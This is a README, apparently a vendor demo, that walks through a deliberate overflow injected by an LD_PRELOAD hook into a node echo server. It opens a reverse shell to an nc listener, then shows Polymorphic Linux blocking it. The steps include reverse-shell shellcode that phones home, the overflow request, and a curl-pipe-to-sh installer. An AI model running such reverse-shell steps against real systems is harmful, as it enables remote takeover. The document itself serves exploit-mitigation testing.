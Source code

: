 # node-echo-server
Test bed for using readhook to hook node-echo-server application.
## Running
```sh
docker run -d --rm --name echo -p 8080:8080 polyverse/node-echo-server
```
## Stopping
```sh
docker kill echo
```
## Running interactively
```sh
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh
node echo-server.js
```
## Polyverse Polymorphic Linux
### 1: Setup Listener for Reverse Shell
#### 1.1: Shell-1: Start a listener for the remote shell to connect to
```sh
nc -kl 5555
```
### 2: Start Server with Readhook
#### 2.1: Shell-2: Start the container with an interactive shell
```sh
docker run -it --rm --name echo -p 8080:8080 polyverse/node-echo-server /bin/sh
```
### 2.2: Shell-2: Install readhook
```sh
apk update && apk add curl wget ca-certificates && update-ca-certificates
wget -q -O /tmp/basehook.so https://github.com/polyverse/readhook/releases/download/jenkins/basehook.so
wget -q -O /tmp/fullhook.so https://github.com/polyverse/readhook/releases/download/jenkins/fullhook.so
```
#### 2.3: Shell-2: Run the echo-server with readhook in front of libc
```sh
LD_PRELOAD="/tmp/fullhook.so /tmp/basehook.so" node /src/echo-server.js
```
#### 2.5: Shell-3: Test that the echo-server is running as expected
```sh
curl localhost:8080/echo-this-line-of-text
```
### 3: Generate Shell-Code
#### 3.1: Shell-3: Generate the shell-code needed to "phone-home" to the listener on Shell-1
```sh
export shellCode=$(curl localhost:8080/xyzzxMAKELOADdocker.for.mac.localhost:5555)
```
#### 3.2: Shell-3: Send the shell-code to the OVERFLOW endpoint to check that it works.
```sh
curl localhost:8080/$shellCode
```
#### 3.3: Shell-1: Check that the overflow resulted in a remote shell
```sh
ls && whoami && exit
```
### 4: Install Polyverse Polymorphic Linux
#### 4.1: Shell-2: Add curl and Polyverse Distros
```sh
curl https://repo.polyverse.io/install.sh | sh -s vZ2v3Bo4Kbnwj9pECrLsoGDDo
```
#### 4.2: Shell-2: Update packages with Polymorphic Linux packages
```sh
sed -n -i '/repo.polyverse.io/p' /etc/apk/repositories && apk upgrade --update-cache --available
```
#### 4.3: Shell-2: Re-run the echo-server with basehook.so (only)
```sh
LD_PRELOAD=/tmp/basehook.so node /src/echo-server.js
```
#### 4.4: Shell-3: Test the shellCode with Polymorphic Linux
```sh
curl localhost:8080/$shellCode
```
#### 4.5: Shell 1: Confirm that nobody phoned-home to the listener
#### 4.6: Shell 2: Confirm that node terminated abnormally
